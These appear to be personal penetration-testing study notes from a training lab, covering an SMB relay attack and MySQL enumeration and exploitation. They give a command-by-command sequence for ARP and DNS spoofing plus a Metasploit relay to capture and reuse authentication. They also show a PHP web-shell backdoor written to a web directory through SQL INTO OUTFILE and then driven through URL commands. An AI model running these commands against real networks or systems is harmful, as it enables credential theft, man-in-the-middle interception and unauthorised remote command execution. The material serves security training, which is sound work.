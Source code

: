 exploit existing smb connection to execute payloads between different machines on a network

Outline:
1. Intercept by setting up MITM between client and server
2. Capture authentication data 
3. Relay to a legitimate server
4. Gain access with the payload/credentials you used

In this example:
- Client: 172.16.5.5
- Target: 172.16.5.10
- Attacker: 172.16.5.101

INE example sequence:
- `smb_relay` in MSF, set `SRVHOST` and `LHOST` to attacker IP
- set `SMBHOST` to the client IP. They are running SMB that we will be intercepting
- set up a fake host resolution file: `echo "[Attacker-IP] *.[Top-Level-Domain]" > [output]`
	- the `*` will resolve your IP to anything in the target domain. the lab example from INE was `*.sportsfoo.com`
- `dnsspoof -i [attacker interface] -f [fake_host_file]`
	- interface is the IP of the network we are spoofing on
- `echo 1 > /proc/sys/net/ipv4/ip_forward
- in two new tabs:
	- `arpspoof -i eth1 -t [client IP] [gateway IP]`
	- `arpspoof -i eth1 -t [gateway IP] [client IP]`
- go back and run the MSF module. now wait for a request on the `dnsspoof` tab

# MySQL Database

TCP port 3306

`sqlcmd` with credentials to connect to a database

`mysql` client
- `--skip-ssl` if you get the ssl error message
- `-u user`
- `-h [IP]`
- `-p` with no argument, it will prompt you for the password

You may need to add `GO` after an SQL query to run it

`nmap --script mysql*`
- `use mysql;` once logged in

If connected to the target and using MYSQL through shell, here are some navigation concepts:
- Database -> Tables -> Columns and Rows
- `show databases;`
- `use [db];`
- `show tables;`

To execute system commands:
- we may be able to write to a location in the file system
- `SELECT "" INTO OUTFILE '/var/www/html/[new_shell_file]';`
	- Ex. `SELECT "<?php system($_GET['cmd']); ?>" into outfile "C:\\xampp\\htdocs\\backdoor.php";`
	- Verify it worked with `SELECT LOAD_FILE (C:\\xampp\\htdocs\\backdoor.php");`
	- You will have to investigate where the default web directory location is on the machine. This example used an xampp server on a windows machine.
	- in a PHP server, you can visit this new file you created and issue a command in the URL, `http://[IP]/backdoor.php?cmd= dir c:\users\ /s flag.txt`
